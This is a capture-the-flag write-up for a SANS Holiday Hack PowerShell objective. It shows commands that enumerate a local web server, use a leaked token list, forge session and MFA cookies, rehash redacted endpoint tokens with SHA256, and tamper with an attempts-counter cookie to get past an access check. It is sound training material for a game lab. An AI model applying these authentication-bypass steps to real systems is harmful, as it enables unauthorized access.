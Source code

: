 # OBJECTIVE 10 - PowerShell #

## OBJECTIVE : ##
>Team Wombley is developing snow weapons in preparation for conflict, but they've been locked out by their own defenses. Help Piney with regaining access to the weapon operations terminal.
#
## HINTS: ##
<details>
  <summary>Hints provided for Objective 10</summary>
  
>-	GOLD:
>    -  I overheard some of the other elves talking. Even though the endpoints have been redacted, they are still operational. This means that you can probably elevate your access by communicating with them. I suggest working out the hashing scheme to reproduce the redacted endpoints. Luckily one of them is still active and can be tested against. Try hashing the token with SHA256 and see if you can reliably reproduce the endpoint. This might help, pipe the tokens to Get-FileHash -Algorithm SHA256.
>    -  They also mentioned this lazy elf who programmed the security settings in the weapons terminal. He created a fakeout protocol that he dubbed Elf Detection and Response "EDR". The whole system is literally that you set a threshold and after that many attempts, the response is passed through... I can't believe it. He supposedly implemented it wrong so the threshold cookie is highly likely shared between endpoints!

  
</details>

#  

## PROCEDURE : ##
### SILVER MEDAL ###
The first few questions are pretty straightforward:
```powershell
1) There is a file in the current directory called 'welcome.txt'. Read the contents of this file
PS /home/user> Get-Content welcome.txt

2) Geez that sounds ominous, I'm sure we can get past the defense mechanisms. 
We should warm up our PowerShell skills. 
How many words are there in the file?
PS /home/user> Get-Content welcome.txt | Measure-Object -word
Lines Words Characters Property
----- ----- ---------- --------
        180

3) There is a server listening for incoming connections on this machine, that must be the weapons terminal. What port is it listening on?
PS /home/user> netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:1225          0.0.0.0:*               LISTEN     
tcp6       0      0 172.17.0.3:35806        52.188.247.151:443      ESTABLISHED

4) You should enumerate that webserver. Communicate with the server using HTTP, what status code do you get?
PS /home/user> Invoke-WebRequest http://localhost:1225
Invoke-WebRequest: Response status code does not indicate success: 401 (UNAUTHORIZED).

5) It looks like defensive measures are in place, it is protected by basic authentication. 
Try authenticating with a standard admin username and password.
Ps/home/user> $cred = Get-Credential
PS /home/user> Invoke-WebRequest http://localhost:1225 -Credential $cred -AllowUnencryptedAuthentication
```
It starts to get more interesting from this point – to answer this next question, we need to create a for loop that cycles through endpoints sequentially and measures the number of words for each one.  The loop must break when it finds an endpoint with exactly 138 words:
```powershell
6) There are too many endpoints here. 
Use a loop to download the contents of each page. What page has 138 words? 
When you find it, communicate with the URL and print the contents to the terminal.
PS /home/user> $i=1                 
PS /home/user> for (;$i -le 15;$i++)    
>> {$Wordcount=(Invoke-WebRequest http://localhost:1225/endpoints/$i -Credential $cred -AllowUnencryptedAuthentication | Measure-Object -word).words                                                                                      
>> Write-Host "Element No: $i has $Wordcount words"
>> If ($Wordcount -eq 138){
>> $Response = Invoke-WebRequest http://localhost:1225/endpoints/$i -Credential $cred -AllowUnencryptedAuthentication 
>> Write-Host $Response.Content   
>> break 
>> } 
>> } 
Element No: 1 has 130 words                                                                                          
Element No: 2 has 127 words
.
.
Element No: 11 has 150 words
Element No: 12 has 123 words
Element No: 13 has 138 words
<html><head><title>MFA token scrambler</title></head><body><p>Yuletide cheer fills the air,<br>    A season of love, of care.<br>    The world is bright, full of light,<br>    As we celebrate this special night.<br>    The tree is trimmed, the stockings hung,<br>    Carols are sung, bells are rung.<br>    Families gather, friends unite,<br>    In the glow of the fire’s light.<br>    The air is filled with joy and peace,<br>    As worries and cares find release.<br>    Yuletide cheer, a gift so dear,<br>    Brings warmth and love to all near.<br>    May we carry it in our hearts,<br>    As the season ends, as it starts.<br>    Yuletide cheer, a time to share,<br>    The love, the joy, the care.<br>    May it guide us through the year,<br>    In every laugh, in every tear.<br>    Yuletide cheer, a beacon bright,<br>    Guides us through the winter night </p><p> Note to self, remember to remove temp csvfile at http://127.0.0.1:1225/token_overview.csv</p></body></html>

7) There seems to be a csv file in the comments of that page.  That could be valuable, read the contents of that csv-file!
PS /home/user> (Invoke-WebRequest -uri http://localhost:1225/token_overview.csv -Credential $cred -AllowUnencryptedAuthentication).content > csvfile.csv
PS /home/user> Get-Content ./csvfile.csv
    
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
# [*] SYSTEMLOG
# [*] Defence mechanisms activated, REDACTING endpoints, starting with sensitive endpoints
# [-] ERROR, memory corruption, not all endpoints have been REDACTED
# [*] Verification endpoint still active
# [*] http://127.0.0.1:1225/tokens/<sha256sum>
# [*] Contact system administrator to unlock panic mode
# [*] Site functionality at minimum to keep weapons active
```

Conveniently the `.csv` file tells us that we can communicate with an endpoint at `http://localhost:1225/tokens/<sha256sum>` and luckily there is still one sha256 value that hasn’t been redacted, so we can use it to call the api endpoint.  

```powershell
8) Luckily the defense mechanisms were faulty! 
There seems to be one api-endpoint that still isn't redacted! Communicate with that endpoint!
PS /home/user> Invoke-WebRequest http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Credential $cred -AllowUnencryptedAuthentication
```

Now things start to get trickier – the api endpoint requires a cookie.  We can set this by creating a `WebRequestSession` and adding a cookie to it:
```powershell
9) It looks like it requires a cookie token, set the cookie and try again.
PS /home/user> $url1 = “http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C”
PS /home/user> $session1 = New-Object Microsoft.PowerShell.Commands.WebRequestSession      
PS /home/user> $cookie1 = New-Object System.Net.Cookie("token", "5f8dd236f862f4507835b0e418907ffc", "/", "127.0.0.1")
PS /home/user> $session1.Cookies.Add($cookie1)
PS /home/user> (Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content
                                              
<h1>Cookie 'mfa_code', use it at <a href='1732384990.947703'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C</a></h1>
```
Ok, so now we’ve got a MFA token and the url path to use it at.  I created a new variable for a new session `$session2` and another variable for the new url to call `$url2`.
```powershell
10) Sweet we got a MFA token! We might be able to get access to the system.
 Validate that token at the endpoint!
PS /home/user> $session2 = New-Object Microsoft.PowerShell.Commands.WebRequestSession      
PS /home/user>  $url2=”http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C”
```

Next we need a regex expression to extract the mfa code from the cookie.  It matches for `href=` and extracts the part following it.  So this command will request the mfa code and extract it from the server response and place it neatly in a variable called `$mfa_token`.

At the same time we also want to add this cookie (along with the previously obtained `token` cookie) to our session before calling `$url2`.  We can use semi-colons `;` to include all the separate powershell commands on a single line and run them all at once and before the MFA token expires:
```powershell
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
(Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content 

<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p> 
```

The response we get is something that looks like a base64 encoded message and we are asked to decode it.  For this we need to follow the same procedure as for question 10 to generate the mfa token, pass it to the server and obtain a response. 

Next we need a regex expression to extract only the text we are interested in that lies between `<p>` and `</p>` and finally we can base64 decode this to complete the objective:
```powershell
11) That looks like base64! Decode it so we can get the final secret! 
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
$Response = (Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content ;
Write-Host $Response;
$base64String = [regex]::match($Response, "<p>(.*?)</p>").Groups[1].Value;
Write-Host $base64String;
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64String));
Write-Host $decodedString

Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction

Hurray! You have thwarted their defenses!
Alabaster can now access their weaponry and put a stop to it.
Once HHC grants your achievement, you can close this terminal.
```
#
### GOLD MEDAL ###

For this next part, I decided it would be best to stick to where the hints are trying to guide me.  First let’s try to replicate the token hashes using `Get-Filehash`.

We can achieve this by testing with the last token in the `.csv` file (since we know what it’s correct hash value should be).  The token value needs to be placed in a file and the `Get-FileHash` is called on that file, with `Select-Object` being used to limit the output to just the hash value:
```powershell
PS /home/user>“5f8dd236f862f4507835b0e418907ffc” > token_1
PS /home/user> Get-FileHash ./token_1 -Algorithm SHA256 | Select-Object -ExpandProperty Hash
4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

OK – this looks promising, it looks like we have the correct hash method – so let’s try hashing another token now:
```powershell
PS /home/user> “67c7aef0d5d3e97ad2488babd2f4c749” > token_2
PS /home/user> Get-FileHash ./token_2 -Algorithm SHA256 | Select-Object -ExpandProperty Hash
BAC2F3580B6491CBF26C84F5DCF343D3F48557833C79CF3EFB09F04BE0E31B60
```

Ok let’s try calling an endpoint with this new hash now:
```powershell
PS /home/user> $session2 = New-Object Microsoft.PowerShell.Commands.WebRequestSession                                                                                                                                                         PS /home/user> $url2 = "http://127.0.0.1:1225/mfa_validate/BAC2F3580B6491CBF26C84F5DCF343D3F48557833C79CF3EFB09F04BE0E31B60"                                                                                                    
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
(Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content 
<h1>[*] Setting cookie attempts</h1> 
PS /home/user> $session2.Cookies.GetAllCookies()

Comment    : 
CommentUri : 
HttpOnly   : False
Discard    : False
Domain     : 127.0.0.1
Expired    : False
Expires    : 01/01/0001 00:00:00
Name       : attempts
Path       : /
Port       : 
Secure     : False
TimeStamp  : 12/01/2024 16:47:14
Value      : c25ha2VvaWwK01
Version    : 0 
```

We have a new cookie called `attempts` with a value of `c25ha2VvaWwK01`.  If we base64 decode this value in Cyberchef we find that `c25ha2VvaWwK` decodes to **snakeoil**, so the `01` at the end must be some kind of counter.   In fact, if we make another attempt at resolving this endpoint we see that the cookie’s value changes to `c25ha2VvaWwK02`.  This keeps on going until the 10th attempt, beyond which the cookie’s value stops being incremented.  This is pretty much what I was expecting to see given the hints we are given.

At this point it’s just a matter of importing the data as a `.csv` file, re-initialising the web-session and going through each end-point one by one, calculating its hash, generating a MFA token and calling the endpoint with the correct cookies set.  For the `attempts` cookie we can set this to `c25ha2VvaWwK10` so that all the endpoints are resolved. Microsoft Co-Pilot was a huge help in [creating a script for this](Code/Enumerate_Endpoints.ps1) which I typed into Notepad++ and then simply copied and pasted it into the console.

And this time we get a successful response from one of the endpoints and we don’t even have to base64 decode it!

```powershell
Current Token: 7b7f6891b6b6ab46fe2e85651db8205f :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
Current Token: 45ffb41c4e458d08a8b08beeec2b4652 :   <h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
Current Token: d0e6bfb6a4e6531a0c71225f0a3d908d :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
Current Token: bd7efda0cb3c6d15dd896755003c635c :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
```
 

